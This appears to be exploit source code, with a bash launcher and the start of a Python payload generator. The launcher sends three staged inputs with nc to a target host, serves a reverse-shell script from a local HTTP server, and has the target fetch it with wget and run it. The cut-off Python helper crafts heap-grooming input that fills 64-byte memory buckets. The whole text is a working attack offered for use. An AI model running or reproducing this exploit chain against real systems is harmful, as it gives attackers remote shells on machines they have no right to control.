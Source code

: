 ```python
#!/bin/bash

if [ "$#" -ne 4 ]; then
    echo "$0 <RHOST> <RPORT> <LHOST> <LPORT>"
    exit
fi

RHOST=$1
RPORT=$2
LHOST=$3
LPORT=$4

echo "[*] Generating payload for the three stages"
python3 generate_input_files.py $LHOST

echo "[*] Modifying script reverse shell to $LHOST:$LPORT"
sed -e "s/LHOST/$LHOST/g" -e "s/LPORT/$LPORT/g" rev.sh > e
python3 generate_input_files.py $LHOST

echo "[*] Starting web browser"
python3 -m http.server&
sleep 1

echo "[*] Sending stage 1 to  $RHOST $PORT - wget http://$LHOST:8000/e"
nc -v $RHOST $RPORT < input_file_1
echo "[+] Done"
sleep 1

echo "[*] Sending stage 2 to  $RHOST $PORT"
nc -v $RHOST $RPORT < input_file_2
echo "[+] Done"
sleep 1

echo "[*] Sending stage 3 to  $RHOST $PORT.. The uploaded script should be executed"
nc -v $RHOST $RPORT < input_file_3
echo "[+] Done"
sleep 1

# kill web server
pkill python3
```

`generate_input_files.py`:
```python
from struct import pack
import sys

def print_stderr(msg):
    sys.stderr.write(msg + "\n")

def exploit(cmd, filename):
    objs = []
    content = ""
    # Objective:
    # Allocate 2 64 bytes buckets and make them full
    # 520 = sizeof(struct bucket)
    # 4096 - 520 = 3576 / 64 = 55
    for n in range(0, 55 * 2):
        obj_id = pack("<h", int(n)).decode()
        objs.append(obj_id)
        # print_stderr("[*] Creating object {}".format(n))
        # Create
        content += "\x10"
        content += obj_id
```